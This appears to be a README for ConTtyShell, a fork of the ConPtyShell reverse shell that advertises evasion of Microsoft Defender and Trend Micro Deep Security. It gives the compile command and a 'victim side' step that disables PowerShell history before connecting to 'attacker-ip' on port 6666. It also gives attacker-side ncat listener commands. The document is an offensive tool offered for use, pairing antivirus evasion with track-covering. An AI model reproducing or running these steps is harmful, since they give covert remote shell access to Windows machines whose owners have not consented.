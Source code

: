 # ConTtyShell
ConPtyShell Fork that Evades:
* Microsoft Defender (as of 25/12/2024)
* Trend Micro Deep Security (as of 03/12/2024)

**Original:**

https://github.com/antonioCoco/ConPtyShell

**Compile with:**

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 -nologo -debug -out:ConTtyShell.exe .\ConTtyShell.cs`

**Tested on:**
* Windows Server 2016 Datacenter 10.0 x64 Build 14393
* Windows Server 2019 x64 Build 1809
* Windows 10 22H2 x64
* Windows 11 22H2 x64


**Victim side usage example:**

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
.\ConTtyShell.exe attacker-ip 6666
```

**Attacker side usage example:**

```
stty raw -echo; (stty size; cat) | ncat -lvnp 6666

Or

rlwrap ncat -lvnp 6666
```
